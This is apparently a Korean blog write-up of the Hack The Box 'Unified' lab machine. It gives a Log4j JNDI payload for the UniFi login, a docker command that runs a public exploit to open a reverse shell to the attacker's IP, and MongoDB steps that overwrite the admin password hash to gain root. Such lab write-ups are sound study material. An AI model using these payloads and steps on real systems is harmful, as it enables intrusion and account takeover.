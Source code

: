 ```yaml
---
title: "[Hack The Box] Unified 풀이"
categories:
  - Hack-The-Box
tags:
  - penetration-testing
  - Log4j
  - MongoDB
toc: true
toc_sticky: true
toc_label: "Unified 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/hackthebox.jpeg
---
```


💡 Hack-The-Box Unified 풀이 입니다.
{: .notice--warning}

# 문제

![image](https://user-images.githubusercontent.com/33647663/181284596-a76e28bc-e8d6-4758-82df-09c2e53eb367.png)

```s
Attacker(Me) IP : 10.10.16.49
Target IP : 10.129.199.68
```


# Enumeration

![image](https://user-images.githubusercontent.com/33647663/181284731-a998e3bb-6681-41ac-981f-ef33ae121f83.png)

대상 호스트의 ip는 위와 같습니다. 먼저 스캐닝을 통해서 오픈된 서비스를 확인합니다.

```sh
nmap -n -sV -p- --min-rate 3000 10.129.199.68
```

```sh
Nmap scan report for 10.129.199.68
Host is up (0.22s latency).
Not shown: 65498 closed tcp ports (conn-refused), 31 filtered tcp ports (no-response)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/unknown
8880/tcp open  cddbp-alt?
``` 

nmap 스캔 결과 총 6개의 포트가 open된 것으로 나오며 이 중 8443 포트로 접속하면 다음과 같이 웹사이트가 나옵니다.

![image](https://user-images.githubusercontent.com/33647663/181288114-38a8d2b1-216f-4eee-9c50-5b961ead72cf.png)

unifi 6.4.54 를 키워드로 구글링을 해보면 log4j가 보입니다.

![image](https://user-images.githubusercontent.com/33647663/181288601-f085f9cd-7eff-4448-ae55-547c6b2e1d62.png)

[관련된 블로그](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)를 읽어보니 해당 버전에서 log4j 취약점이 존재하는 것으로 보입니다.


취약점이 발생하는 매개변수는 **remembee**변수로 해당 변수에 취약점이 발생하는지 확인하기 위해서 payload를 다음과 같이 넣어줍니다. 그 전에 1389포트를 열어놓아야 ldap 요청이 오는지 확인이 가능합니다.

```sh
remember : ${jndi:ldap://(공격자IP):1389/a}
```

![image](https://user-images.githubusercontent.com/33647663/181290535-2a9d7795-fdab-42ba-a7cb-7425e6719ad7.png)

1389포트로 요청이 온 것을 통해서 log4j 취약점이 존재함을 확인할 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/181290944-a07b9a5b-5f21-451d-80ee-d3383104af69.png)

[log4junifi](https://github.com/puzzlepeaches/Log4jUnifi)에서 익스플로잇 코드를 다운 받아서 다음과 같이 log4j 익스플로잇을 수행할 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/181292221-ef3ad871-6067-48a3-946e-d32c085e1151.png)

먼저 4444번 포트를 열어놓고, 다음과 같이 명령어를 입력해 주면 4444번 포트로 리버스 쉘이 생성됩니다.

**명령어**
```sh
docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi -u https://10.129.199.68:8443 -i 10.10.16.49 -p 4444
```


# Privilege Escalation

target machine으로 연결 되었으니, 이제 권한 상승을 위해서 다시 정보를 획득합니다.

![image](https://user-images.githubusercontent.com/33647663/181292854-ac392057-43eb-4f46-bec5-d82a2af4464d.png)

ps 명령어를 통해 실행중인 프로세스를 보니, mongoDB가 27117 포트로 실행중인 것을 볼 수 있습니다.

27117포트로 접속을 시도하면 다음과 같이 접근이 가능합니다.

![image](https://user-images.githubusercontent.com/33647663/181295067-d0a73fcb-ab94-47ec-ba24-5f66ccf23b0c.png)


현재 default로 접속한 db는 test이며, 다른 database 정보를 출력하면 다음과 같습니다.

![image](https://user-images.githubusercontent.com/33647663/181295271-c419d7f9-a9ad-4e13-b528-1762637e00ee.png)

ace 데이터베이스가 unifi에서 사용하는 기본 database로 **use ace**명령어로 해당 db로 접속한 다음, show collections로 컬렉션 정보를 출력하면 여러가지 컬렉션이 나옵니다. 이중 **admin**컬렉션의 정보를 출력해 봅니다.

```python
db.admin.find()           # 그냥 출력
db.admin.find().forEach(printjson) # json 형태로 출력
```

![image](https://user-images.githubusercontent.com/33647663/181296203-f189c057-f245-49aa-952b-770db52803bd.png)

처음 데이터를 보면, **administrator**계정에 대한 정보가 들어있는 것을 알 수 있습니다. shadow정보가 $6인것으로 보아 SHA-512로 해시되어 있는 것을 알 수 있습니다.

제가 먼저 시도해본 방법은 해당 해시값을 따로 저장해서 john the ripper로 rockyou.txt 사전파일을 통해 알아내는 것을 시도해 보았지만, 사전파일에 존재하는 비밀번호는 아닌 것 같았습니다.(5분정도 돌렸는데 못찾음)

그 다음 시도는 administrator 계정의 비밀번호를 바꾸는 것입니다.

먼저 위의 shadow정보와 동일하게 SHA-512로 암호화된 비밀번호를 생성합니다.

```sh
$ mkpasswd -m SHA-512
password : (hackthebox입력)
```

![image](https://user-images.githubusercontent.com/33647663/181297063-71c42e8d-953a-4786-866d-83e3bbb76e4f.png)

이제 이 해시값을 업데이트 문법에 맞도록 넣어줍니다.

```s
db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set : {"x_shadow" : "$6$fv.mBFbjj71bS3JU$vgwWx8jMgP.n8XnqDJ1hzQsbnoB8y5FdoD9OExH4zxU7ls3oJIlrLZiTEMiuWiDueZD/KBjZQzi00mjBpIqTN."}})
```


![image](https://user-images.githubusercontent.com/33647663/181297732-29982418-3bd3-405c-a8fa-9c7efd46211d.png)

제대로 업데이트가 되었는지 확인해 봅니다.

![image](https://user-images.githubusercontent.com/33647663/181298505-815d2d98-b9d4-4c9a-8ed6-a8df4ee9bc7b.png)

성공적으로 업데이트 되었습니다. 이제 **administrator**계정의 비밀번호가 **hackthebox**로 변경되었습니다. 

홈페이지에 다시 들어가서 id/pw를 입력하여 로그인을 시도합니다.

로그인에 성공하면 다음과 같이 대시보드가 나옵니다.

![image](https://user-images.githubusercontent.com/33647663/181299275-9a155ce5-14c2-4b59-96cd-28615d6c70f1.png)

몇가지 기능을 열어보면 다음과 같이 ssh 정보를 알아낼 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/181299436-fc8a491e-edd1-435f-9438-4a34d7508f57.png)

ssh로 root의 비밀번호를 알아냈으므로 이를 이용해서 root로 접속을 합니다.

![image](https://user-images.githubusercontent.com/33647663/181299866-de78f088-4e06-4a8e-b0bf-9cded3c30c79.png)

플래그를 알아내면서 해당 box를 클리어 할 수 있습니다.


